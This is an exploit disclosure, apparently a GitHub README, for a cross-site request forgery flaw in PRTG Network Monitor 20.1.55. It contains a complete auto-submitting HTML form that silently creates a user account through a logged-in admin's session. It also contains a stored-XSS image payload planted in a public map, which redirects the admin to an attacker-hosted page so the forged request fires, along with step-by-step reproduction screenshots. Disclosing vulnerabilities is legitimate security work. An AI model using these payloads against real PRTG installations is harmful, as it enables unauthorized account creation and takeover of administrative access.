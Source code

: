 # PRTG Network Monitoor v20.1.55 - CSRF
Cross Site Request Forgery (CSRF) on PRTG Network Monitor version 20.1.55

Exploit Title: Cross Site Request Forgery (CSRF)
Date: 10/06/2021
Exploit Author: Likhith CV
Vendor Homepage: https://www.paessler.com/
Software Link: https://www.paessler.com/prtg
Test on Version: 20.1.55.1775+
Affected Versions: not tested on other versions


## Observation
It was observed that anti csrf tokens are not implemented throughout PRTG Network Monitor v 20.1.55 Application

Severity: High

## Steps To reproduce:

To exploit this vulnerability an attacker can simply create a HTML form that would submit a user account creation request and share the link with the victim.On clicking the link , the user account creation request will be triggered in background and it shall create a user account from his valid session.

Any action can be performed on behalf of logged in user but for demonstration user account creation on behalf of admin is shown as example


1. Create a CSRF payload as following
```javascript
<html>
  <body onload="onLoadSubmit()">
  <script>history.pushState('', '', '/')</script>
    <form action="https://[domain]/editsettings" name="cu2" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="login&#95;" value="User&#95;test2" />			<!--username-->
      <input type="hidden" name="name&#95;" value="User&#95;test2" />			<!--name-->
      <input type="hidden" name="email&#95;" value="cvlikhith&#64;gmail&#46;com" />		<!--email-->
      <input type="hidden" name="email" value="" />
      <input type="hidden" name="passwordradio" value="1" />
      <input type="hidden" name="password1" value="Hello123" />				<!--password-->
      <input type="hidden" name="password&#95;" value="" />					<!--confirm_password-->
      <input type="hidden" name="password2" value="Hello123" />
      <input type="hidden" name="passhash" value="" />
      <input type="hidden" name="lastackedsensordeprecationgrowl" value="" />
      <input type="hidden" name="usertype&#95;" value="0" />
      <input type="hidden" name="allowack&#95;" value="0" />
      <input type="hidden" name="allowpwchange&#95;" value="0" />
      <input type="hidden" name="primarygroup&#95;" value="201&#124;PRTG&#32;Users&#32;Group&#124;&#124;&#124;0&#124;" />	<!--group-->
      <input type="hidden" name="primarygroup" value="201" />
      <input type="hidden" name="active&#95;" value="1" />
      <input type="hidden" name="autorefreshtype&#95;" value="1" />
      <input type="hidden" name="autorefreshinterval&#95;" value="30" />
      <input type="hidden" name="playsound&#95;" value="0" />
      <input type="hidden" name="homepage&#95;" value="" />
      <input type="hidden" name="timezone&#95;" value="Dateline&#32;Standard&#32;Time&#124;&#40;UTC&#45;12&#58;00&#41;&#32;International&#32;Date&#32;Line&#32;West" />
      <input type="hidden" name="dateformat&#95;" value="0" />
      <input type="hidden" name="theme&#95;" value="0" />
      <input type="hidden" name="ticketmail&#95;" value="1" />
      <input type="hidden" name="objecttype" value="user" />
      <input type="hidden" name="id" value="new" />
      <input type="hidden" name="targeturl" value="&#47;systemsetup&#46;htm&#63;tabid&#61;5" />
      <input type="submit" value="Submit request" />
    </form>
	<script language="javascript">
function onLoadSubmit() {
	document.cu2.submit();
}
</script>
  </body>
</html>

```
2. Send this payload to admin of the PRTG Portal
3. once Admin opens your payload new user account will be created   

Since this version is vulnerable to stored XSS, XSS can be leverged to CSRF and used to trick admin in creating new user

### CSRF Payload
![payload](https://user-images.githubusercontent.com/36541248/121513665-2420c100-c9fc-11eb-819f-c83a94cba544.png)

### Hosting CSRF.html on attacker server
![python_server](https://user-images.githubusercontent.com/36541248/121513670-284cde80-c9fc-11eb-8102-315033fb317f.png)

### User accounts before CSRF attack
![0](https://user-images.githubusercontent.com/36541248/121513531-005d7b00-c9fc-11eb-8346-c04737d7869f.png)

### Add a Map
![1](https://user-images.githubusercontent.com/36541248/121513573-0c493d00-c9fc-11eb-8270-23b62fb7debf.png)

### Enter any name and select allow publilc access (so that our XSS payload is publically accessible)
![2](https://user-images.githubusercontent.com/36541248/121513586-0e130080-c9fc-11eb-8e54-6c3ea52e5be7.png)

### Go to Map Designer 
![3](https://user-images.githubusercontent.com/36541248/121513597-110df100-c9fc-11eb-8b12-654965eb2f11.png)

### Drag and Drop a Icon 
![4](https://user-images.githubusercontent.com/36541248/121513601-12d7b480-c9fc-11eb-86ae-96d6e4aa6082.png)

### Enter XSS payload in After HTML
![5](https://user-images.githubusercontent.com/36541248/121513612-15d2a500-c9fc-11eb-9c5b-05d7135e2785.png)

```javascript
<img src=x onerror=document.location.href="http://[attacker_domain]/CSRF.html"//">

```
![6](https://user-images.githubusercontent.com/36541248/121513621-179c6880-c9fc-11eb-9978-c76a6073b4e3.png)

### Click on Save
![7](https://user-images.githubusercontent.com/36541248/121513630-1a975900-c9fc-11eb-92b0-da239afb8664.png)

### New Map with XSS payload is created
![8](https://user-images.githubusercontent.com/36541248/121513635-1bc88600-c9fc-11eb-8297-27d7dec6c4eb.png)

### Once the Admin Opens map CSRF Payload is triggered and new user account "user_test2" is created
![9](https://user-images.githubusercontent.com/36541248/121513559-07848900-c9fc-11eb-8ae9-4ea660d2a35a.png)

### Testing Credentials
![testing_creds](https://user-images.githubusercontent.com/36541248/121513678-2aaf3880-c9fc-11eb-9d3b-82edacd809a7.png)

### Logged In 
![logged_in](https://user-images.githubusercontent.com/36541248/121513653-2125d080-c9fc-11eb-9285-fde0942c83e1.png)







